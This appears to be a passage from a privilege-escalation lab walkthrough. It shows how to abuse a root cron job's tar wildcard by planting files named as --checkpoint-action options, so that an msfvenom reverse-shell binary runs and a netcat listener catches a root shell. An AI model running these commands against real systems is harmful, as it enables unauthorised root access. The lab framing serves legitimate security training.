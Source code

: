 View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp** or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

`chmod +x /home/user/shell.elf`

Create these two files in /home/user:

`touch /home/user/--checkpoint=1   touch /home/user/--checkpoint-action=exec=shell.elf`

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.  

`nc -nvlp 4444`  

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

`rm /home/user/shell.elf   rm /home/user/--checkpoint=1   rm /home/user/--checkpoint-action=exec=shell.elf`